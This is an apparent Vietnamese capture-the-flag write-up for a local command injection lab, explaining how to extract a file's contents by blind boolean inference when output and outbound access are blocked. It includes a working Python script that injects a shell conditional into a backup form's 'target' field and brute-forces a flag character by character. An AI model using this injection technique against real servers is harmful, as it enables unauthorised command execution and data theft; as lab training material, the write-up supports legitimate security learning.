

# Command Injection Level 6

## __1. Sử dụng như người dùng:__
Ở level này, server vẫn bị chặn ra ngaoif internet và cách làm ở lv5 cũng không thực hiện được.  
Giao diện không có gì thay đổi.

## __2. Xem đằng sau chương trình:__
- File `index.php`: không có gì thay đổi.
- File `nginx.conf`: không có gì thay đổi.
- File `Dockerfile`: có 1 chỗ khác biệt với lv5  
  
Ở lv6 anh Devops đã bỏ đi cho phép ghi file vào `Document Root` nên cách làm ở lv5 sẽ vô hiệu hóa.
- File `docker-compose.yml`: không có gì thay đổi giữa lv5 và lv6

## __3. Lên ý tưởng và Khai thác:__
### a. <ins>Ý tưởng</ins>:
Liệu còn cách nào để ta có thể biết được `output` của command?  
Quan sát kỹ mã nguồn, có đoạn kiểm tra nếu `output` của lệnh `zip` có chứa chuỗi `zip error` thì sẽ trả về "___Backup không thành công___", ngược lại sẽ trả về "___Backup thành công___".  
Lợi dụng điều này, ta sẽ biết được output cỉa command trhong qua sự khác nhau của kết quả trả về.

Ý tưởng để khai thác như sau:
- Chạy lệnh ta muốn
- Kiểm tra nếu ký tự đầu tiên của output là `a` thì ta in ra `zip error`
- Khi đó neeys server trả về "___Backup không thành công___" tức là ký tự đầu của output chính là `a` và ngược lại thì không phải.
- Tương tự ta thử `b`, `c`, `d`,... cho ký tự đầu.
- Tương tự với các ký tự thứ 2, thứ 3,...

__&rarr; Ta đã đọc được output của command.__
### b. <ins>Khai thác</ins>:
Payload:
```python
import requests 
import string

url = "http://localhost:1006/"
charset =  ["A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z","0", "1", "2", "3", "4", "5", "6", "7", "8", "9","a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z","!", "@", "#", "_",  "%", "&", "", "(", ")", "+", "=", "|", "\"", "}", "{", "]", "[", ":", ";", "'", "\"", ",", "<", ".", ">", "/", "?", "~", "`", " "]

flag = ""
baseQuery = "a /etc/passwd; if [ \"$(cat /*.txt|cut -c{})\" = \"{}\" ]; then echo '123'; else echo 'zip error'; fi;"
while True:
    for char in charset:
        realQuery = baseQuery.format(len(flag)+1, char)
        data = {"command": "backup", "target": realQuery}
        res = requests.post(url, data= data)
        if "không" not in res.text:
            flag = flag + char
            break
    print(flag)
```


> CBJS{FAKE_FLAG_FAKE_FLAG}